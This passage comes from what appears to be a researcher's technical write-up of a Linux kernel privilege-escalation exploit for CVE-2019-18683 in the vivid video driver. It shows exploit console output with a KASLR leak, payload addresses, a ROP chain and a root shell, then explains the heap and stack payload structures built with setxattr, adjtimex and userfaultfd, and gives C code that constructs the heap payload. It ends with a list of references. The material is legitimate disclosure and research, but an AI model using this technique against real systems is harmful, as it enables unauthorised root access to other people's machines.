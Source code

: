 ```
 [+] found r11 "ffffffff9d15d80d" in kmsg
 [+] kaslr_offset is 0x1a800000
Adapt payloads knowing that kstack is 0xffffb93600ef0000, kaslr_offset 0x1a800000:
   vb2_queue of size 560 will be at 0xffffb93600eefe30, userspace 0x7f8c9e9aef38
   mem_ops ptr will be at 0xffffb93600eefe68, userspace 0x7f8c9e9aef70, value 0xffffb93600eefe70
   mem_ops struct of size 120 will be at 0xffffb93600eefe70, userspace 0x7f8c9e9aef78, vaddr 0xffffffff9bc725f1 at 0x7f8c9e9aefd0
   rop chain will be at 0xffffb93600eefe80, userspace 0x7f8c9e9aef88
   cmd will be at ffffb93600eefedc, userspace 0x7f8c9e9aefe4
 [+] the payload for kernel heap and stack is ready. Put it.
 [+] UFFD_EVENT_PAGEFAULT for uffd 4 on address = 0x7f8c9e9af000: 2 faults collected
 [+] fault_handler for uffd 4 passed the barrier
 [+] UFFD_EVENT_PAGEFAULT for uffd 3 on address = 0x7f8c9e9b1000: 44 faults collected
 [+] fault_handler for uffd 3 passed the barrier
 [+] and now fatality: run the shell command as root!
```

## Anatomy of the exploit payload

In the previous section, I described orchestration of the exploit pthreads. I mentioned that the exploit payload is created in two locations:
 1. In the kernel heap by `sprayer` pthreads using `setxattr()` syscall powered by `userfaultfd()`.
 2. In the kernel stack by `racer` pthreads using `adjtimex()` syscall powered by `userfaultfd()`. That syscall is chosen because it performs `copy_from_user()` to the kernel stack.

The exploit payload consists of three parts:
  1. `vb2_buffer` in kernel heap
  2. `vb2_queue` in kernel stack
  3. `vb2_mem_ops` in kernel stack

Now see the code that creates this payload. At the beginning of the exploit, I prepare the payload contents in the userspace.
That memory is for the `setxattr()` syscall, which will put it on the kernel heap:

```c
#define MMAP_SZ 0x2000
#define PAYLOAD_SZ 504

void init_heap_payload()
{
	struct vivid_buffer *vbuf = NULL;
	struct vb2_plane *vplane = NULL;

	for_heap = mmap(NULL, MMAP_SZ, PROT_READ | PROT_WRITE,
					MAP_SHARED | MAP_ANONYMOUS, -1, 0);
	if (for_heap == MAP_FAILED)
		err_exit("[-] mmap");

	printf(" [+] payload for_heap is mmaped to %p\n", for_heap);

	/* Don't touch the second page (needed for userfaultfd) */
	memset(for_heap, 0, PAGE_SIZE);

	xattr_addr = for_heap + PAGE_SIZE - PAYLOAD_SZ;

	vbuf = (struct vivid_buffer *)xattr_addr;

	vbuf->vb.vb2_buf.num_planes = 1;
	vplane = vbuf->vb.vb2_buf.planes;
	vplane->bytesused = 16;
	vplane->length = 16;
	vplane->min_length = 16;

	printf(" [+] vivid_buffer of size %lu is at %p\n",
```

[0]: https://nvd.nist.gov/vuln/detail/CVE-2019-18683
[0.1]: https://www.offensivecon.org/speakers/2020/alexander-popov.html
[0.2]: https://elixir.bootlin.com/linux/v5.4/source/drivers/media/platform/vivid
[1]: https://youtu.be/mb4YHyLy0Zc
[1.1]: https://www.kernel.org/doc/html/latest/media/v4l-drivers/vivid.html
[2]: https://www.openwall.com/lists/oss-security/2019/11/02/1
[3]: https://github.com/google/syzkaller/
[4]: https://lore.kernel.org/lkml/CAHk-=wgE-veRb7+mw9oMmsD97BLnL+q8Gxu0QRrK65S2yQfMdQ@mail.gmail.com/
[5]: https://lore.kernel.org/lkml/20200116140218.1328022-1-alex.popov@linux.com/T/#u
[6]: https://lore.kernel.org/lkml/20200116095220.7368a604@gandalf.local.home/
[7]: https://lore.kernel.org/lkml/20200117225900.16340-1-alex.popov@linux.com/T/#u
[9]: https://duasynt.com/blog/linux-kernel-heap-spray
[10]: https://twitter.com/andreyknvl
[11]: https://github.com/xairy
[12]: https://www.ptsecurity.com/ww-en/
[13]: https://grsecurity.net/features
[14]: https://community.arm.com/developer/ip-products/processors/b/processors-ip-blog/posts/enhancing-memory-safety